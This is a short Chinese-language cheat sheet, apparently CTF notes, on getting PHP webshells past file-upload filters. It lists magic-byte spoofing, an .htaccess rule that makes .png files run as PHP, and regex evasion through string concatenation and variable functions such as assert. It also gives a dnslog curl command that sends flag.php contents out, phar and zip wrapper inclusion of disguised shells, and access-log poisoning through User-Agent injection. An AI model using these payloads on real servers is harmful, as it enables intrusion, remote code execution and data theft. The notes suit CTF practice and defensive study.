 ## 文件头绕过
31 31 31=>89 50 4e 47 0d 0a
## .htaccess解析绕过
```
AddType application/x-httpd-php .png
```
## 内容绕过
```php
preg_match('#\w{2,}|[678]|<\?|/#',$content);//不能出现2个及以上字母或数字|<?|/
```
1.用字符串连接符.绕过
2.可变函数绕过(注意eval函数不能用)
```
$a = 'a'.'s'.'s'.'e'.'r'.'t'
$a();
```
3.结尾的结束符?>可忽略，因为php是动态脚本
4.短标签绕过
```php
<?= ?> //所有情况可用
<? ?> //需开启短标签
<script language="PHP"> <script/>
```
5.eval,assert
6.system,wget,nc,exec,passthru,netcat,curl 
```php
curl `cat flag.php|grep "flag"`.当时创建的域名 //dnslog
```
## 文件包含绕过
有?file=upload.php的
直接访问图片是没用的。菜刀连接的url要包含?file=才行
1.文件包含不管后缀名是什么，只要含有<?php 内容即可,所以可配合图片马(包含可以解析出来)或.log
2.phar能把压缩文件解压读取，即使这个压缩文件的后缀名改了也可以。所以上传一个getshell的压缩文件，后缀名改成jpg或者其他。然后通过phar://读取
```php
1.test.php
2.压缩后改后缀名为jpg
3.include("zip://t.zip#t.php");
或include("phar://a.phar/a.php");
```
## 非预期绕过
把一句话写到访问日志里面
使用条件:post提交ctf=/etc/passwd,有回显,我们可以日志文件包含还有session包含(如果clean up开启就不行,需要条件竞争 )
```php
include($ctf);
先在User-Agent注入php代码//只有一次机会
ctf=/var/log/nginx/access.log   ctf=/var/log/apache/access.log
```
![20220607212037](https://s2.loli.net/2022/06/07/kMV7Hl6ONaWYJDU.png)
![20220607212052](https://s2.loli.net/2022/06/07/OL675yudzZkmgXa.png)
